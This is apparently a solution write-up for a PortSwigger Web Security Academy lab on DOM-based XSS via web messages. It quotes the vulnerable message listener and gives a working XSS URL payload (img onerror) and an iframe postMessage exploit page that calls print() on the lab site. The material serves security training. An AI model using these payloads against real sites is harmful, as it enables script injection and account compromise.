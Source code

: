 # [Lab: DOM XSS using web messages and a JavaScript URL](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)

## Lab

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

## Analysis

Find scripts:

```js
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

Detected reflected xss at: `https://id.web-security-academy.net/post/comment/confirmation?postId=%22%3E%3Cimg%20src=1%20onerror=print()%3E`

## Solutions

craft a response at exploit server:

- body:

  ```js
  <iframe src="https://id.web-security-academy.net/" onload="this.contentWindow.postMessage('https://id.web-security-academy.net/post/comment/confirmation?postId=%22%3E%3Cimg%20src=1%20onerror=print()%3E','*')">

  ```
